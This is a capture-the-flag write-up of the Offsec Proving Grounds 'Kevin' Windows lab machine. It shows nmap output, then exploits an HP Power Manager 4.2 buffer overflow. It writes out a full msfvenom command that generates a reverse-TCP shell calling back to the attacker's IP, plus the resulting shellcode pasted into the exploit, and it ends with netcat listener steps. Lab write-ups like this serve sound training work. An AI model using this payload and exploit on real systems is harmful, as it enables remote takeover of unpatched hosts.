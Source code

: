 ```yaml
---
title: "Proving grounds Practice: Kevin"
layout: post
date: 2023-08-28 01:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Windows
- Pg-Practice
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds practice windows machine writeup"
---
```


## Nmap

```sh
Nmap
PORT      STATE SERVICE            VERSION
80/tcp    open  http               GoAhead WebServer
|_http-server-header: GoAhead-Webs
| http-title: HP Power Manager
|_Requested resource was http://192.168.174.45/index.asp
| http-methods: 
|_  Supported Methods: GET HEAD
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows 7 Ultimate N 7600 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
3573/tcp  open  tag-ups-1?
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
```

## PORT : 80 : Web

HP Power Manager 4.2 (Build 7)

![img](/assets/images/CTF/Proving_Grounds/Kevin/web.png)

HP Power Manager 4.2 (Build 7) is vulnerable to [Buffer Overflow Attack](https://www.exploit-db.com/exploits/10099).

## Exploitation

Download the [Exploit](https://www.exploit-db.com/exploits/10099) from exploitDB.

Create a shellcode using `tun0` IP and local PORT to listen for reverse connection.

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.156 LPORT=443  EXITFUNC=thread -b '\x00\x1a\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5' x64/alpha_mixed --platform windows -f c
```

**Generated Buffer**

```text
"\x31\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76"
"\x0e\x93\x99\xf7\xc4\x83\xee\xfc\xe2\xf4\x6f\x71\x75\xc4"
"\x93\x99\x97\x4d\x76\xa8\x37\xa0\x18\xc9\xc7\x4f\xc1\x95"
"\x7c\x96\x87\x12\x85\xec\x9c\x2e\xbd\xe2\xa2\x66\x5b\xf8"
"\xf2\xe5\xf5\xe8\xb3\x58\x38\xc9\x92\x5e\x15\x36\xc1\xce"
"\x7c\x96\x83\x12\xbd\xf8\x18\xd5\xe6\xbc\x70\xd1\xf6\x15"
"\xc2\x12\xae\xe4\x92\x4a\x7c\x8d\x8b\x7a\xcd\x8d\x18\xad"
"\x7c\xc5\x45\xa8\x08\x68\x52\x56\xfa\xc5\x54\xa1\x17\xb1"
"\x65\x9a\x8a\x3c\xa8\xe4\xd3\xb1\x77\xc1\x7c\x9c\xb7\x98"
"\x24\xa2\x18\x95\xbc\x4f\xcb\x85\xf6\x17\x18\x9d\x7c\xc5"
"\x43\x10\xb3\xe0\xb7\xc2\xac\xa5\xca\xc3\xa6\x3b\x73\xc6"
"\xa8\x9e\x18\x8b\x1c\x49\xce\xf1\xc4\xf6\x93\x99\x9f\xb3"
"\xe0\xab\xa8\x90\xfb\xd5\x80\xe2\x94\x66\x22\x7c\x03\x98"
"\xf7\xc4\xba\x5d\xa3\x94\xfb\xb0\x77\xaf\x93\x66\x22\x94"
"\xc3\xc9\xa7\x84\xc3\xd9\xa7\xac\x79\x96\x28\x24\x6c\x4c"
"\x60\xae\x96\xf1\x37\x6c\xbe\x05\x9f\xc6\x93\x98\x4c\x4d"
"\x75\xf3\xe7\x92\xc4\xf1\x6e\x61\xe7\xf8\x08\x11\x16\x59"
"\x83\xc8\x6c\xd7\xff\xb1\x7f\xf1\x07\x71\x31\xcf\x08\x11"
"\xfb\xfa\x9a\xa0\x93\x10\x14\x93\xc4\xce\xc6\x32\xf9\x8b"
"\xae\x92\x71\x64\x91\x03\xd7\xbd\xcb\xc5\x92\x14\xb3\xe0"
"\x83\x5f\xf7\x80\xc7\xc9\xa1\x92\xc5\xdf\xa1\x8a\xc5\xcf"
"\xa4\x92\xfb\xe0\x3b\xfb\x15\x66\x22\x4d\x73\xd7\xa1\x82"
"\x6c\xa9\x9f\xcc\x14\x84\x97\x3b\x46\x22\x17\xd9\xb9\x93"
"\x9f\x62\x06\x24\x6a\x3b\x46\xa5\xf1\xb8\x99\x19\x0c\x24"
"\xe6\x9c\x4c\x83\x80\xeb\x98\xae\x93\xca\x08\x11"
```

Replace the above buffer values in the exploit code.

```python
SHELL = (
"n00bn00b"
"\x31\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76"
"\x0e\x93\x99\xf7\xc4\x83\xee\xfc\xe2\xf4\x6f\x71\x75\xc4"
"\x93\x99\x97\x4d\x76\xa8\x37\xa0\x18\xc9\xc7\x4f\xc1\x95"
"\x7c\x96\x87\x12\x85\xec\x9c\x2e\xbd\xe2\xa2\x66\x5b\xf8"
"\xf2\xe5\xf5\xe8\xb3\x58\x38\xc9\x92\x5e\x15\x36\xc1\xce"
"\x7c\x96\x83\x12\xbd\xf8\x18\xd5\xe6\xbc\x70\xd1\xf6\x15"
"\xc2\x12\xae\xe4\x92\x4a\x7c\x8d\x8b\x7a\xcd\x8d\x18\xad"
"\x7c\xc5\x45\xa8\x08\x68\x52\x56\xfa\xc5\x54\xa1\x17\xb1"
"\x65\x9a\x8a\x3c\xa8\xe4\xd3\xb1\x77\xc1\x7c\x9c\xb7\x98"
"\x24\xa2\x18\x95\xbc\x4f\xcb\x85\xf6\x17\x18\x9d\x7c\xc5"
"\x43\x10\xb3\xe0\xb7\xc2\xac\xa5\xca\xc3\xa6\x3b\x73\xc6"
"\xa8\x9e\x18\x8b\x1c\x49\xce\xf1\xc4\xf6\x93\x99\x9f\xb3"
"\xe0\xab\xa8\x90\xfb\xd5\x80\xe2\x94\x66\x22\x7c\x03\x98"
"\xf7\xc4\xba\x5d\xa3\x94\xfb\xb0\x77\xaf\x93\x66\x22\x94"
"\xc3\xc9\xa7\x84\xc3\xd9\xa7\xac\x79\x96\x28\x24\x6c\x4c"
"\x60\xae\x96\xf1\x37\x6c\xbe\x05\x9f\xc6\x93\x98\x4c\x4d"
"\x75\xf3\xe7\x92\xc4\xf1\x6e\x61\xe7\xf8\x08\x11\x16\x59"
"\x83\xc8\x6c\xd7\xff\xb1\x7f\xf1\x07\x71\x31\xcf\x08\x11"
"\xfb\xfa\x9a\xa0\x93\x10\x14\x93\xc4\xce\xc6\x32\xf9\x8b"
"\xae\x92\x71\x64\x91\x03\xd7\xbd\xcb\xc5\x92\x14\xb3\xe0"
"\x83\x5f\xf7\x80\xc7\xc9\xa1\x92\xc5\xdf\xa1\x8a\xc5\xcf"
"\xa4\x92\xfb\xe0\x3b\xfb\x15\x66\x22\x4d\x73\xd7\xa1\x82"
"\x6c\xa9\x9f\xcc\x14\x84\x97\x3b\x46\x22\x17\xd9\xb9\x93"
"\x9f\x62\x06\x24\x6a\x3b\x46\xa5\xf1\xb8\x99\x19\x0c\x24"
"\xe6\x9c\x4c\x83\x80\xeb\x98\xae\x93\xca\x08\x11")
```

Run netcat listerner on the PORT which was used in the above payload.

Run the exploit using `python2` and the reverse connetion will be obtained in few seconds.

![img](/assets/images/CTF/Proving_Grounds/Kevin/shell.png)

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).